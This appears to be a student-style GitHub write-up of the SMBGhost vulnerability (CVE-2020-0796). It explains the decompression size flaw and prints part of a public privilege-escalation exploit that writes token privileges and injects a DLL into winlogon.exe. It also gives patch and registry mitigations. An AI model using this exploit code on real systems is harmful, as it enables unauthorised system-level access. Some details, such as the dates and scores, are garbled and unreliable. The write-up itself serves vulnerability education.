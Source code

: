 # CVE-2020-0796


## Background
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security

![download](https://user-images.githubusercontent.com/25041906/111921659-15191b00-8a6c-11eb-9c72-2afd91c12c3f.jpg)

The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below.                                           
 
    typedef struct _COMPRESSION_TRANSFORM_HEADER
    {
      ULONG ProtocolId;
      ULONG OriginalCompressedSegmentSize;
      USHORT CompressionAlgorithm;
      USHORT Flags;
      ULONG Offset;
    } COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 

    typedef struct _ALLOCATION_HEADER 
    {
      // ...
      PVOID UserBuffer;
      // ...
    }  ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
    NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
    {
         PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
    
    ULONG FinalCompressedSize = 0;
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}

We can compare line 20, which is in the memory allocation function and line 31 inside the data decompressed function. Line 20 is original size + header offset and line 31 is minus offset. On the other hand, there is not any functions to check the size legality of the packet. 


![overflow](https://user-images.githubusercontent.com/59459399/111933279-7f928100-8a95-11eb-8d37-50a8d892b201.png)

Whether or not the copy step is going to be executed, we can trigger the overflow since we changed the allocated size to be smaller than it actually needed.   


### Vulnerability Exploit
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address. The code here was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.

def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://user-images.githubusercontent.com/59459399/111933682-545c6180-8a96-11eb-8095-cea3bfcd5999.png)


But if we keep trying the exploit several times, we can get the system/authority privilege.

![CVE-2020-0796-Privilege-Escalation-POC-original](https://user-images.githubusercontent.com/59459399/111933400-c7b1a380-8a95-11eb-9060-a7f851beeb16.gif)

Overall, the code sends a customized token to a windows specific version of the system, then the windows os will received and decompressed the packet like we mentioned above. Sometimes, we could get a blue screen of death, but don’t worry, the this protection is not stable, if we are patient and retry a couple of times, it will finally not crash and give us what we want. As showing in this little demo here, we eventually get the system privilege. 

If you are interested in the entire part of the source code on this vulnerability exploit, please check the link below.

[The whole stack buffer overflow source code refer to zecops research team] (https://github.com/ZecOps/CVE-2020-0796-LPE-POC)


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))

[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)

[ Vulnerability exploit by Jiansiting](https://www.exploit-db.com/docs/4961)

[Vulnerability analysis by ZECOPS Research Team](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)

[real example](https://www.aljazeera.com/economy/2020/11/26/crypto-boom-shaken-as-bitcoin-plunges-along-with-other-coins)


